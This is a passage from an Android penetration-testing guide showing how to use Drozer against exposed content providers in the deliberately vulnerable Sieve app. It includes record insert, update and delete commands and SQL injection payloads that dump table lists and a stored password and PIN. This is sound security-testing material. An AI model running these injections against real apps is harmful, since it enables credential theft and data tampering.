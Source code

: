 Once you have a list of accessible content providers, try to extract data from each provider with the `app.provider.query` module:

`dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical _id: 1 service: Email username: incognitoguy50 password: PSFjqXIMVa5NJFudgDuuLVgJYFD+8w== (Base64 - encoded) email: incognitoguy50@gmail.com`

You can also use Drozer to insert, update, and delete records from a vulnerable content provider:

- Insert record

`dz> run app.provider.insert content://com.vulnerable.im/messages                 --string date 1331763850325                 --string type 0                 --integer _id 7`

- Update record

`dz> run app.provider.update content://settings/secure                 --selection "name=?"                 --selection-args assisted_gps_enabled                 --integer value 0`

- Delete record

`dz> run app.provider.delete content://settings/secure                 --selection "name=?"                 --selection-args my_setting`

### SQL Injection in Content Providers

The Android platform promotes SQLite databases for storing user data. Because these databases are based on SQL, they may be vulnerable to SQL injection. You can use the Drozer module `app.provider.query` to test for SQL injection by manipulating the projection and selection fields that are passed to the content provider:

`dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'" unrecognized token: "' FROM Passwords" (code 1): , while compiling: SELECT ' FROM Passwords  dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'" unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (')`

If an application is vulnerable to SQL Injection, it will return a verbose error message. SQL Injection on Android may be used to modify or query data from the vulnerable content provider. In the following example, the Drozer module `app.provider.query` is used to list all the database tables:

`dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';--" | type  | name             | tbl_name         | rootpage | sql              | | table | android_metadata | android_metadata | 3        | CREATE TABLE ... | | table | Passwords        | Passwords        | 4        | CREATE TABLE ... | | table | Key              | Key              | 5        | CREATE TABLE ... |`

SQL Injection may also be used to retrieve data from otherwise protected tables:

`dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--" | Password | pin | | thisismypassword | 9876 |`

You can automate these steps with the `scanner.provider.injection` module, which automatically finds vulnerable content providers within an app:

`dz> run scanner.provider.injection -a com.mwr.example.sieve Scanning com.mwr.example.sieve... Injection in Projection:   content://com.mwr.example.sieve.DBContentProvider/Keys/   content://com.mwr.example.sieve.DBContentProvider/Passwords   content://com.mwr.example.sieve.DBContentProvider/Passwords/ Injection in Selection:   content://com.mwr.example.sieve.DBContentProvider/Keys/   content://com.mwr.example.sieve.DBContentProvider/Passwords   content://com.mwr.example.sieve.DBContentProvider/Passwords/`
